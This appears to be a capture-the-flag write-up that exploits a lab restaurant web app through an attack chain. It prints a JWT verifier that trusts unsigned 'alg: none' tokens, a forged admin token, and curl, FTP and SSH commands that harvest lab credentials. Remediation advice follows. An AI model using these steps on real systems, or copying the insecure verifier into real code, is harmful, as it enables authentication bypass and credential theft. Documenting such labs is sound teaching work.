

# Security Assessment & Vulnerability Report
**Challenge:** Task 2 — Hidden Recipe  
**Category:** Cybersecurity / Web Application Security  
**Target Environment:** GDG Diner Internal Operations Web Application (`gdgserverdebian.vdi`)  
**Assessment Date:** October 18, 2026  
**Status:** Completed  

---

## 1. Executive Summary

During the security analysis of the provided restaurant internal operations virtual machine and web application (**GDG Diner**), a critical multi-stage vulnerability chain was identified. An unauthenticated attacker on the local network can sequentially exploit public information disclosure, JSON Web Token (JWT) signature verification flaws, cleartext credential exposure in administrative logs, insecure FTP backup file storage, and lateral SSH movement to execute an internal host binary and extract confidential intellectual property.

### Recovered Flag
```text
gdg{5utd0_ld3_l3_4_5tndw1ch}
```

---

## 2. Vulnerability Assessment Summary

| ID | Vulnerability | Severity | CWE | Affected Component |
| :--- | :--- | :--- | :--- | :--- |
| **VULN-01** | Unauthenticated Sensitive Log Exposure | **Medium** | CWE-200 | `GET /logs` |
| **VULN-02** | JWT Signature Verification Bypass (`alg: none`) | **Critical** | CWE-345 / CWE-327 | `opt/gdg-diner/app/api/*` |
| **VULN-03** | Cleartext Credential Exposure in Admin Logs | **High** | CWE-522 | `GET /api/admin/logs` |
| **VULN-04** | Sensitive Information Storage in Insecure Backup | **High** | CWE-552 | FTP `/srv/ftp/backup/files` |
| **VULN-05** | Insecure Privilege Separation on Host Workstation | **Medium** | CWE-276 | `/home/intern/secret_recipe` |

---

## 3. Detailed Vulnerability Analysis



### VULN-01: Sensitive Log Exposure via Public Endpoint
* **Severity:** Medium (CVSS 5.3)
* **Endpoint:** `GET /logs`
* **Root Cause:** A public route exports base64-encoded audit trail entries intended for internal diagnostics.
* **Impact:** Discloses running background daemons, network IP configuration, and authentication attempts across SSH and FTP services.
* **Evidence:**
  ```json
  {
    "service": "auth",
    "source": "audit",
    "encoding": "base64",
    "note": "legacy authentication logs (sanitized)",
    "data": "MjAyNC0xMS0xNFQxMzo0MjozMVogSU5GTyBzc2hkWzEyMzRd..."
  }
  ```
  Base64-decoded output reveals active services:
  ```text
  2024-11-14T13:42:31Z INFO sshd[1234]: Accepted password for deploy from 192.168.1.10
  2024-11-14T13:42:33Z INFO sshd[1234]: User deploy authenticated using password 'Spring2021!'
  2024-11-14T13:42:40Z INFO ftpd[567]: FTP service listening on 0.0.0.0:21
  ```

---

### VULN-02: Broken Authentication — JWT `alg: none` Bypass
* **Severity:** Critical (CVSS 9.8)
* **Affected File:** `opt/gdg-diner/lib/auth.ts` (bundled into `.next/server`)
* **Root Cause:** The JWT verification module explicitly bypasses cryptographic verification whenever the token header specifies `alg: "none"`:
  ```javascript
  async function verifyToken(token) {
    try {
      let [headerB64, payloadB64] = token.split(".");
      let header = JSON.parse(Buffer.from(headerB64, "base64url").toString("utf8"));
      let payload = JSON.parse(Buffer.from(payloadB64, "base64url").toString("utf8"));
      
      // VULNERABILITY: Unsigned tokens are blindly trusted
      if ("none" === header.alg) return payload;

      return jwt.verify(token, process.env.JWT_SECRET);
    } catch {
      return null;
    }
  }
  ```
* **Impact:** Complete authentication bypass allowing any client to forge arbitrary user claims, specifically setting `admin: true` to gain administrative rights.

---

### VULN-03: Plaintext Credential Exposure in Admin Logs
* **Severity:** High (CVSS 7.5)
* **Endpoint:** `GET /api/admin/logs`
* **Access Control:** Restricted to `admin === true`
* **Root Cause:** The endpoint serves raw operating system authentication history containing cleartext FTP passwords logged during failed and successful sessions.
* **Impact:** An attacker who escalates to admin privileges via VULN-02 can download `orders.log` and harvest credentials for the local `backup` user account.
* **Evidence:**
  ```text
  2024-10-17T21:23:11Z INFO  ftpd[2077]: FTP login successful: user=backup from 192.168.56.1
  2024-10-17T21:23:11Z WARN  ftpd[2077]: Cleartext authentication in use
  2024-10-17T21:23:11Z INFO  ftpd[2077]: USER backup
  2024-10-17T21:23:11Z INFO  ftpd[2077]: PASS oLd$bAcKuPsN@ThInGt@sEeHeRe
  2024-10-17T21:23:12Z INFO  ftpd[2077]: Home directory restricted (/srv/ftp/backup)
  ```

---

### VULN-04: Credential & Key Exposure in Insecure FTP Backups
* **Severity:** High (CVSS 8.1)
* **Service:** VSFTPD / ProFTPD on Port 21
* **Root Cause:** Workstation backup zips were retained in `/srv/ftp/backup/files/` without encryption or access expiration.
* **Impact:** Logging into FTP as `backup` yields `intern_nightly_2024.1.zip`. Unpacking the archive exposes user notes (`laptop_refresh.txt`) and private keys:
  ```text
  === intern_backup/notes/laptop_refresh.txt ===
  Laptop refresh notes - October

  - Intern account migrated to new workstation
  - Old SSH access archived just in case
  - Remove after verification

  TODO:
  - delete old key backups

  username - intern
  password - agb!$sa4dx!##
  ```

---

### VULN-05: Local Binary Privilege Abuse & Flag Decryption
* **Severity:** Medium (CVSS 5.5)
* **Binary Path:** `/home/intern/secret_recipe`
* **Binary Details:** 64-bit ELF executable, dynamically linked, stripped.
* **Mechanism:**
  1. The binary runs two filesystem integrity checks using `stat()`:
     - Check 1: `stat("/srv/ftp")`
     - Check 2: `stat("/etc/systemd/system/gdg-diner.service")`
  2. If both paths exist, it loads two encrypted vectors from `.rodata` (`0x2050` and `0x2060`) into memory.
  3. It applies a single-byte XOR key (`0x2a`) across the buffer and streams the decrypted recipe to `std::cout`.
* **Output:**
  ```text
  gdg{5utd0_ld3_l3_4_5tndw1ch}
  ```

---

## 4. Step-by-Step Validation & Reproduction

### Step 1: Reconnaissance
Send a request to the unauthenticated public logs route:
```bash
curl -s http://<VM_IP>/logs | jq -r '.data' | base64 -d
```

### Step 2: Forging the Admin JWT
Construct an unsigned JWT specifying the `none` algorithm:
* **Header:** `{"alg":"none","typ":"JWT"}` $\rightarrow$ Base64URL: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`
* **Payload:** `{"userId":1,"admin":true}` $\rightarrow$ Base64URL: `eyJ1c2VySWQiOjEsImFkbWluIjp0cnVlfQ`
* **Resulting Token:** `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VySWQiOjEsImFkbWluIjp0cnVlfQ.`

### Step 3: Harvesting Credentials via Admin API
Access `/api/admin/logs` with the forged administrative cookie:
```bash
curl -s -b "token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VySWQiOjEsImFkbWluIjp0cnVlfQ." \
  http://<VM_IP>/api/admin/logs -o admin_orders.log

grep -E "USER|PASS" admin_orders.log
```
*Discovered credentials:* `user=backup`, `pass=oLd$bAcKuPsN@ThInGt@sEeHeRe`.

### Step 4: FTP Access & Backup Retrieval
Authenticate to FTP port 21 and retrieve the workstation backup:
```bash
ftp <VM_IP>
# Enter credentials: backup / oLd$bAcKuPsN@ThInGt@sEeHeRe

ftp> cd files
ftp> get intern_nightly_2024.1.zip
ftp> bye

unzip intern_nightly_2024.1.zip
cat intern_backup/notes/laptop_refresh.txt
```
*Discovered credentials:* `user=intern`, `pass=agb!$sa4dx!##`.

### Step 5: SSH Lateral Movement & Flag Recovery
Connect to the server via SSH as `intern` and execute the secret recipe binary:
```bash
ssh intern@<VM_IP>
# Enter password: agb!$sa4dx!##

./secret_recipe
```

**Console Output:**
```text
gdg{5utd0_ld3_l3_4_5tndw1ch}
```

---

## 5. Remediation Recommendations

1. **Enforce Strict JWT Algorithms:**
   Explicitly define `algorithms: ['HS256']` in `jwt.verify()` and disallow tokens utilizing `alg: "none"`.
2. **Remove Unprotected Diagnostics:**
   Decommission the unauthenticated `/logs` route and restrict log access to authorized operators through authenticated administrative interfaces.
3. **Prevent Sensitive Data in System Logs:**
   Configure FTP daemons (`vsftpd`/`proftpd`) to mask passwords in logs (e.g., disable verbose command and credential logging).
4. **Secure Backup Storage & Credential Rotation:**
   Encrypt backup archives at rest, store them outside web/FTP-accessible trees, and immediately revoke credentials (`intern`, `backup`, `deploy`) found in deprecated notes.
5. **Least Privilege Principles:**
   Restrict file read permissions on `/home/intern/secret_recipe` and enforce multi-factor authentication (MFA) or key-only SSH access.
